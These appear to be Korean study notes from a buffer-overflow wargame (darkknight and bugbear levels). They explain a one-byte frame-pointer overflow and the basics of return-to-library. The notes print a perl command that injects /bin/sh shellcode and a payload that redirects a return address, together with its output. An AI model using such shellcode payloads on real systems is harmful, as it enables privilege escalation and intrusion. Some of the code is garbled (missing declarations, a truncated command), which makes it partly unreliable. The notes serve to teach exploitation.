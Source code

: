 
<c코드로 변환>
problem_child(*src){ char buffer[40]; strncpy(buffer,src,41); printf("%s\n",buffer); } int main(){ if(argc<=1){ printf("argv error\n"); exit(0); } problem_child(argv[1]); return 0; }
1. 41바이트 복사
2. 리턴주소의 마지막 주소만 변환 가능.
3. argv>=1
3. main함수->problem_child->main함수 넘어갔다오는 과정에서
esp가 4 증가?되므로 조절 필요.
./darkknight $(perl -e 'print "\x90"x15 . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80" . "\xbc"')
41번째 바이트에 들어가는게 맨뒤 주소. 맨앞에는 셸코드

강사님 풀이
함수 2개 int 함수, problem child
strncpy: 오버플로우 방지위해 사용
strcpy가 사이즈 검사하지 않음.
strncpy는 사이즈를 정해줌.
40->41바이트로 복사
마지막 파일에 \0을 넣을 수 있도록 1바이트의 여유공간이 있어 1바이트 오버플로우 발생.
prob-child의strncpy와 브레이크 해두면
ebp확인가능(p-c함수의 ebp)
leave: 2개의 명령어 포함
mov esp, ebp
==>pop ebp
==>leave에 브레이크 걸고 전후 모습을 보면
ret
==>pop eip
info reg ebp esp해서 봄
ebp가 오버플로우 된 주소로 나옴
esp+4
leave에 esp에 ebp가 저장됨
ret에 pop eip가 됨. ebp+4가 eip가 되므로
ebp+4로 ret되게 됨!
따라서 ebp를 원하는 주소 -4에 셸코드 넣어놓으면 깰 수 있음

셸코드주소 4바이트 전에 ebp를 넣어주어야 함.
환경변수에 셸코드 로드해서 풀이
4바이트 ebp 36바이트 \xcc


(13) LEVEL13: darkknight / new attacker
문제: bugbear
1. argc>1
2. argc[1][47]!="\xbf" ==? 어떻게??
strcpy(buffer,argv[1])
bf를 사용할 수 없으므로 스택메모리를 사용할 수 없음.
@RTL(Return To Library)
-RTL의 전신: Omega Project(셸코드를 사용하지 않고 루트권한 획득할 수 있을까?라는 화두에서 시작)
test.c
void dummy01(){ printf("call dummy01\n"); } void dummy02(){ printf("call dummy02\n"); } void dummy03(){ printf("call dummy03\n"); } void dummy04(){ printf("call dummy04\n"); } void dummy05(){ printf("call dummy05\n"); } int main(int argc, char *argv[]){ char buffer[100]={0,}; strcpy(buffer,argv[1]); printf("%s\n",buffer); return 0; }
disassemble main해서 보면 호출하지 않았으니 dummy를 볼 수 없으나
disassemble dummy01해서 보면 이미 메모리에 올라가있음
dummy함수 시작주소만 알 수 있으면 이를 호출해서 쓸 수 있음
./test $(perl "a"x104 . dummy함수의 시작주소 써주면 dummy함수 호출됨.
(gdb) disassemble dummy02 0x8048414 <dummy02>:    push   %ebp
dummy02의 시작주소: 0x8048414
./test $(perl -e 'print "a"x104 . "\x14\x84\x04\x08"')
결과
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa▒ call dummy02     <<dummy02함수 호출된 모습>> Segmentation fault (core dumped)
여러개 함수를 한번에 호출하고싶다면?
dummy01은 0x8048400 <dummy01>:    push   %ebp